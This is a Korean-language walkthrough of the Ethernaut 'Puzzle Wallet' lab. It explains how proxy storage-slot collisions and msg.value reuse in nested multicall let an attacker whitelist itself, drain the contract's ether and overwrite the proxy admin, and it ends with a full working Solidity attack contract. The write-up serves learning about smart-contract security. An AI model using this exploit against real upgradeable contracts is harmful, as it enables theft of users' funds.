

## 문제
### 지문
Nowadays, paying for DeFi operations is impossible, fact.
A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it.
To do so, they voted and assigned two people with special roles in the system:
The admin, which has the power of updating the logic of the smart contract.
The owner, which controls the whitelist of addresses allowed to use the contract.
The contracts were deployed, and the group was whitelisted.
Everyone cheered for their accomplishments against evil miners.
Little did they know, their lunch money was at risk...
You'll need to hijack this wallet to become the admin of the proxy.
Things that might help:
Understanding how delegatecall works and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
## 배경지식
<hr />
`PuzzleProxy`는 `UpgradeableProxy`를 상속한다. 문제 코드에는 import만 보이기 때문에 실제 동작을 보려면 helper 코드를 같이 봐야 한다.
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/proxy/Proxy.sol";
import "openzeppelin-contracts-08/utils/Address.sol";

contract UpgradeableProxy is Proxy {
    constructor(address _logic, bytes memory _data) {
        assert(_IMPLEMENTATION_SLOT == bytes32(uint256(keccak256("eip1967.proxy.implementation")) - 1));
        _setImplementation(_logic);
        if (_data.length > 0) {
            (bool success,) = _logic.delegatecall(_data);
            require(success);
        }
    }

    event Upgraded(address indexed implementation);

    bytes32 private constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function _implementation() internal view override returns (address impl) {
        bytes32 slot = _IMPLEMENTATION_SLOT;
        assembly {
            impl := sload(slot)
        }
    }

    function _upgradeTo(address newImplementation) internal {
        _setImplementation(newImplementation);
        emit Upgraded(newImplementation);
    }

    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "UpgradeableProxy: new implementation is not a contract");
        bytes32 slot = _IMPLEMENTATION_SLOT;
        assembly {
            sstore(slot, newImplementation)
        }
    }
}
```
[https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/src/helpers/UpgradeableProxy-08.sol](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/src/helpers/UpgradeableProxy-08.sol)
`UpgradeableProxy`는 implementation 주소를 EIP-1967 슬롯에 저장한다. 그래서 implementation 주소 자체는 일반적인 slot0, slot1과 충돌하지 않는다. 하지만 `PuzzleProxy`가 직접 선언한 `pendingAdmin`, `admin`은 slot0, slot1에 놓인다.
<hr />
`Proxy`는 fallback에서 implementation으로 `delegatecall`한다.
```solidity
abstract contract Proxy {
    function _delegate(address implementation) internal virtual {
        assembly {
            calldatacopy(0x00, 0x00, calldatasize())
            let result := delegatecall(gas(), implementation, 0x00, calldatasize(), 0x00, 0x00)
            returndatacopy(0x00, 0x00, returndatasize())

            switch result
            case 0 {
                revert(0x00, returndatasize())
            }
            default {
                return(0x00, returndatasize())
            }
        }
    }

    function _implementation() internal view virtual returns (address);

    function _fallback() internal virtual {
        _delegate(_implementation());
    }

    fallback() external payable virtual {
        _fallback();
    }
}
```
[https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/Proxy.sol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/Proxy.sol)
즉 proxy 주소로 `PuzzleWallet`의 함수 selector를 보내면, proxy에는 그 함수가 없으므로 fallback이 실행되고 implementation인 `PuzzleWallet` 코드가 `delegatecall`로 실행된다.
`delegatecall`은 코드만 빌려오고 storage는 호출한 컨트랙트의 storage를 사용한다. 따라서 `PuzzleWallet` 코드가 실행되더라도 실제로 읽고 쓰는 storage는 `PuzzleProxy`의 storage다.
<hr />
`delegatecall`에서는 `msg.sender`와 `msg.value`가 상위 호출의 값을 유지한다. 이 값은 이 문제에서 두 군데에 사용된다.
먼저 proxy를 통해 wallet 함수를 호출해도 `msg.sender`는 공격자 주소로 유지된다. 그래서 `addToWhitelist`의 `msg.sender == owner` 같은 검사가 proxy storage의 `owner` 값을 기준으로 공격자를 검사하게 된다.
또 `multicall` 내부의 `address(this).delegatecall(data[i])`에서도 같은 `msg.value`가 유지된다. 이 때문에 한 번만 ether를 보냈는데, 중첩된 `multicall` 안에서 `deposit`을 여러 번 실행하면 내부 accounting인 `balances[msg.sender]`가 실제 입금액보다 크게 증가할 수 있다.
<hr />
`PuzzleProxy`와 `PuzzleWallet`의 앞쪽 storage layout을 나란히 보자.
```solidity
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin; // slot0
    address public admin;        // slot1
}

contract PuzzleWallet {
    address public owner;        // slot0
    uint256 public maxBalance;   // slot1
}
```
proxy를 통해 wallet 코드를 실행하면 `PuzzleWallet.owner`는 proxy의 slot0을 읽고, `PuzzleWallet.maxBalance`는 proxy의 slot1을 읽는다. 따라서 다음 대응이 생긴다.
- `pendingAdmin` ↔ `owner`
- `admin` ↔ `maxBalance`
문제 목표는 proxy의 `admin`을 플레이어 주소로 바꾸는 것이다. wallet의 `setMaxBalance(uint256 _maxBalance)`가 `maxBalance`를 쓰기 때문에, 이 함수를 proxy를 통해 호출할 수 있으면 slot1인 proxy의 `admin`을 덮을 수 있다.
## 문제 코드 분석
<hr />
먼저 `owner` 탈취 경로를 보자.
```solidity
function proposeNewAdmin(address _newAdmin) external {
    pendingAdmin = _newAdmin;
}

function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
}
```
`proposeNewAdmin`은 아무나 호출할 수 있고 proxy의 `pendingAdmin`을 바꾼다. 그런데 이 값은 wallet 관점의 `owner`와 같은 slot0이다.
따라서 proxy에서 `proposeNewAdmin(공격자)`를 호출하면, proxy를 통해 wallet 코드를 실행할 때 `owner == 공격자`로 보인다. 그 다음 `addToWhitelist(공격자)`를 호출하면 `msg.sender == owner` 검사를 통과하고 공격자를 whitelist에 등록할 수 있다.
<hr />
이제 `admin`을 덮는 함수를 보자.
```solidity
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
}
```
`setMaxBalance`는 wallet의 `maxBalance`를 바꾸는 함수지만, proxy를 통해 호출하면 proxy의 slot1을 쓴다. slot1은 proxy의 `admin`이다.
따라서 `_maxBalance`에 `uint256(uint160(player))`를 넣으면 proxy의 `admin`이 `player` 주소로 바뀐다.
다만 조건이 있다. 호출자는 whitelist에 있어야 하고, proxy의 ether balance가 0이어야 한다. whitelist는 앞에서 해결했고, 남은 문제는 컨트랙트에 들어 있는 0.001 ether를 전부 빼는 것이다.
<hr />
다음으로 `multicall`의 입금 중복을 보자.
```solidity
function deposit() external payable onlyWhitelisted {
    require(address(this).balance <= maxBalance, "Max balance reached");
    balances[msg.sender] += msg.value;
}

function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            depositCalled = true;
        }
        (bool success,) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```
`multicall`은 같은 호출 안에서 `deposit` selector가 직접 두 번 들어오는 것은 막는다. 하지만 막는 기준은 현재 `multicall` 함수의 지역변수 `depositCalled`다.
바깥 `multicall`에서 `deposit()`을 한 번 호출하고, 다른 원소로 안쪽 `multicall([deposit()])`을 넣으면 안쪽 호출은 새로운 `depositCalled`를 가진다. 그래서 각 `multicall` 입장에서는 `deposit`이 한 번씩만 호출된 것처럼 보인다.
문제는 둘 다 `delegatecall`이라 같은 `msg.value`를 본다는 점이다. 예를 들어 `0.001 ether`를 보내고 `deposit`이 두 번 실행되면 실제 proxy balance는 `0.001 ether`만 증가하지만, `balances[공격자]`는 `0.002 ether` 증가한다.
<hr />
마지막으로 `execute`로 잔액을 비우는 부분을 보자.
```solidity
function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
    require(balances[msg.sender] >= value, "Insufficient balance");
    balances[msg.sender] -= value;
    (bool success,) = to.call{value: value}(data);
    require(success, "Execution failed");
}
```
`execute`는 내부 accounting인 `balances[msg.sender]`만 충분하면 실제 ether를 전송한다. 중첩 `multicall`로 `balances[공격자]`를 실제 입금액보다 크게 만들어두면, 컨트랙트가 들고 있던 기존 ether까지 함께 빼낼 수 있다.
Ethernaut 인스턴스에는 보통 `0.001 ether`가 들어 있다. 공격자가 `0.001 ether`를 보내면서 `deposit`을 두 번 반영시키면 `balances[공격자] == 0.002 ether`가 된다. 그 다음 `execute`로 `0.002 ether`를 빼면 proxy의 ether balance가 0이 되고, `setMaxBalance`의 조건을 만족한다.
## 풀이
먼저 `proposeNewAdmin(address(this))`로 slot0을 덮어서 wallet 관점의 `owner`를 공격 컨트랙트로 만든다. 그 상태에서 `addToWhitelist(address(this))`를 호출해 whitelist 조건을 통과한다.
그 다음 `multicall`을 중첩해서 `0.001 ether` 입금으로 `balances[address(this)]`가 `0.002 ether` 증가하게 만든다. `execute`로 `0.002 ether`를 빼면 proxy balance가 0이 된다.
마지막으로 `setMaxBalance(uint256(uint160(msg.sender)))`를 호출한다. 이 함수는 wallet의 `maxBalance`를 쓰는 것처럼 보이지만 proxy storage에서는 slot1, 즉 `admin`을 쓴다. 최종적으로 proxy의 `admin`이 플레이어 주소가 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IProxy {
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function multicall(bytes[] calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
}

contract Attack {
    IProxy proxy;

    constructor(address _addr) payable {
        proxy = IProxy(_addr);
    }

    function attack() public {
        proxy.proposeNewAdmin(address(this));
        proxy.addToWhitelist(address(this));

        bytes[] memory deposit = new bytes[](1);
        deposit[0] = abi.encodeWithSelector(proxy.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = abi.encodeWithSelector(proxy.deposit.selector);
        data[1] = abi.encodeWithSelector(proxy.multicall.selector, deposit);

        proxy.multicall{value: 0.001 ether}(data);
        proxy.execute(msg.sender, 0.002 ether, "");
        proxy.setMaxBalance(uint256(uint160(msg.sender)));
    }
}
```

